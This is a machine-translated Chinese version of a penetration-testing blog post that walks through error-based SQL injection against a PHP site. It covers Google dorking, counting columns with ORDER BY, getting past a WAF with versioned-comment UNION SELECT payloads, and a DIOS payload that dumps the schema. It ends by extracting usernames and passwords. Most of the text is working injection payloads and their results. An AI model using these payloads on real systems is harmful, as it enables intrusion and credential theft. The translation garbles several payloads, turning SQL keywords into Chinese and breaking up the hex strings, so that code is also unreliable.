# 绕过 WAF 进行高级的基于错误的 SQL 注入

> 原文：<https://infosecwriteups.com/bypassing-waf-to-do-error-based-sql-injection-dd52773a66d3?source=collection_archive---------0----------------------->

在渗透测试期间，我面对一个网站，在这篇文章中我将它命名为**http://domain.com**

在浏览网站时，我没有看到任何单个参数，尽管该网站是用 PHP 构建的。我停止了浏览，开始谷歌 Dorking。

# **Google Dorking 寻找端点**

使用一个简单的傻瓜 **inurl:http://domain.com** ，我设法得到了一些有趣的端点:



图像中选中的文字引出一个有趣的点:[**http://domain.com/REDACTED/news.php?id=13**](http://domain.com/REDACTED/news.php?id=13)

打开网址时，我遇到了一个 MySQL 错误。即使从 Google dorking 结果中，您也可以看到错误:

> 警告:mysql_fetch_assoc()期望参数 1 是 resource，第 27 行的 boolean give in …



访问端点时出现 MySQL 错误

这个错误对我们来说非常有价值，因为我们知道我们可以执行一些基于布尔的查询。让我们开始开发。

# 分析网站的行为

我尝试了一些基本的查询，看看网站的行为。当我输入一个错误的查询时，我得到 2 个错误(1 个已经是默认的错误消息，另一个是我们造成的)。



所以我们知道，如果我们的查询是正确的，我们只会得到一个错误消息，否则我们会得到两个错误消息。由于这些有价值的信息(我花了时间才意识到)，让我们通过使用 **ORDER BY** 查询来获得列数。

# 使用布尔+ ORDER BY 查询查找列数

因为服务器期望我们使用布尔型，所以我可以使用**和 0** 布尔型查询，但是您也可以使用其他一些布尔型查询:

> 以及空值
> 和 1

我们的查询现在将同时具有布尔型和按查询排序的**。我总是试图从 1 号开始查找列，因为它 100%确定不会显示任何错误。**

> http://domain.com/REDACTED/news.php?id=13，0 按 1 排序—



我们只收到一条错误消息(来自网站，而不是我们的查询)。现在我们知道我们的查询是正确的，让我们尝试将列数增加 1，直到我们得到第二个错误。

> ？id=13，0 按 1 排序—(显示 1 个错误)
> ？id=13 且 0 按 2 排序—(显示 1 个错误)
> ？id=13 且 0 按 3 排序—(显示 1 个错误)
> ？id=13 且 0 按 4 排序—(显示 1 个错误)
> ？id=13 且 0 按 5 排序—(显示 1 个错误)
> ？id =13，0 按 6 排序—(显示 2 个错误)

当我们试图找到第 6 列时，会出现 2 条错误消息。所以这意味着数据库只有 5 列。

> http://domain.com/REDACTED/news.php?id=13，0 按 6 排序—



试图查找第 6 列时出现 2 个错误

在继续之前，确认数据库有 5 列。

> http://domain.com/REDACTED/news.php?id=13，0 按 5 排序—



# 绕过 WAF 并找到哪一列有要转储数据

现在我们确定了，因为我们没有得到第二个错误。现在是时候使用 **UNION SELECT** 查询来查找这 5 列中的哪一列填充了信息。

> http://domain.com/REDACTED/news.php?id=13 和 0 联合选择 1，2，3，4，5 —



哦，我们的请求被 WAF 阻止了，让我们试着绕过它。有大量的 UNION 查询可以绕过 WAF，但是在这种情况下，起作用的是:

> http://domain.com/REDACTED/news.php?id=13 和 0 /*！50000UnIoN*/ /*！50000SeLeCt*/ 1，2，3，4，5 —



我们绕过了 WAF，但是没有显示数字。因此，我们不知道要转储哪些列。我浏览了整个页面，但一无所获，所以我决定查看源代码。



在选中的部分，我们看到数字 **2** 和 **3** 。很好，现在我们知道我们必须关注这两列。在这种情况下，我将尝试第二列。

# 转储第二列中的所有数据

## 转储数据库名称

使用基于 **UNION** 的查询，让我们转储数据库名称。

> http://domain.com/REDACTED/news.php?id=13 和 0 /*！50000UnIoN*/ /*！50000SeLeCt*/ 1，数据库()，3，4，5 —



太好了，我们看到数据库名称了。

## 使用 DIOS 自动转储表+列

我将尝试注入一个 DIOS 有效负载，因为通过手动 SQL 注入来获取每个表的每一列是非常漫长和枯燥的。DIOS 为我们所面临的 SQL 创建了一个很好的表示。我使用的 DIOS 有效载荷是专门为晶圆旁路设计的，使用了 **0xHEX** 转换和 **/*！00000** 用于字符串旁路。

> http://domain.com/REDACTED/news.php?id=13 和 0 /*！50000UnIoN*/ /*！50000SeLeCt*/ 1，/*！00000 concat */(0x3c 666 f6e 7420666163653d 224963656 c 616 e 6422207374796 c 653d 2265643 b 746578742d 736861646 f 773 a 3070782031707820357078202333300000 from */% 20(select % 20(@ x:= 0x 00)，(select%20(0)%20/*！00000 from */% 20(information _ schema/* */)。columns)% 20 where % 20(table _ schema！= 0x 696 e 666 f 726d 6174696 f 6 e5f 736368656d 61)% 20 和%20(0x00)%20in%20(@x:=/*！00000concat*/(@x，0x3c 74723 E3 c 74643 E3 c 666 f 6e 7420636 f 6 c6f 723d 7265642073697 a 653d 333 e 266 e 6273703 b 266 e 6273703 b 266 e 6273703 b，table_schema，0x 266 e 6273703 b 266 e 627373703 b 3c 2 f 6



## 将数据转储到列中

很好，我们有表格和每个表格的列。从所有这些大表格中，我将注意力集中在这两个表格上。



这引起了我的注意。我将关注**用户**表，并将转储来自两列的数据:**用户名**和**密码**

最终有效载荷将是:

> http://domain.com/REDACTED/news.php?id=13 和 0 /*！50000UnIoN*/ /*！50000SeLeCt*/ 1，(SELECT+GROUP_CONCAT(用户名，0x3a，密码+分隔符+0x3c 62723 e)+FROM+kb elb _ db . user)，3，4，5 —

现在看看源代码，我们得到了用户名:admin/user 的密码。

